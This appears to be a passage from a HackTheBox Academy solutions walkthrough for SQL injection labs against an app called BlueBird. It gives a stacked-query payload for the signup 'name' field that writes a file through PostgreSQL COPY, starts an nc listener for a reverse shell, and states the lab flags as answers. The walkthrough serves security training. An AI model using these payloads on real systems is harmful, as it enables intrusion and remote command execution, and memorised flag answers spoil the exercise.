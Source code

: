 ![[HTB Solutions/CWEE/z. images/46f83efe8356481d64336ddcae7738d8_MD5.jpg]]

Therefore, students need to exploit this SQLi by first going `http://STMIP:8080/signup`:

![[HTB Solutions/CWEE/z. images/abf310e216ab54a9c28b52a8d37240c0_MD5.jpg]]

Then, to avoid breaking the `INSERT` statement and rendering the query invalid, students need to provide as `name` a SQLi payload that will close the `INSERT INTO` statement correctly with arbitrary values then end it with `);` to inject the SQL query afterwards. To write the file `/var/lib/postgresql/proof.txt`, the `COPY` method will be used, however, students can also use the `Large Objects` method:

Code: sql

```sql
Life', 'Short', 'Art@art.art', 'Long'); CREATE TABLE dbBackups(backup TEXT);INSERT INTO dbBackups VALUES('Life is short, art Long');COPY dbBackups TO '/var/lib/postgresql/proof.txt';DROP TABLE dbBackups; --
```

![[HTB Solutions/CWEE/z. images/3b7503e44a5b44e5c7fd7118603a9929_MD5.jpg]]

At last, after creating the account, students need to check `http://STMIP:8080/server-info` to attain the flag `HTB{8c03f71890a8919c84626cef49576e3f}`:

![[HTB Solutions/CWEE/z. images/778fe5f95533c312b647e81e25ea04e0_MD5.jpg]]

Answer: `HTB{8c03f71890a8919c84626cef49576e3f}`

# Command Execution

## Question 1

### "Use either technique in one of the many SQL injection vulnerabilities in BlueBird to get command execution on the server. As proof, what is the value of /var/lib/postgresql/13/main/flag.txt?"

After spawning the target machine, students can choose between the `COPY` or `PostgreSQL Extensions` methods to achieve RCE, the former will be used. Additionally, students can exploit any of the SQLi vulnerabilities discovered in the previous questions, the POST `/signup` endpoint will be exploited. First, students need to start a listener with `nc`:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.15.70]─[htb-ac413848@htb-86fotrbqub]─[~]
└──╼ [★]$ nc -nvlp 7331

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7331
Ncat: Listening on 0.0.0.0:7331
```
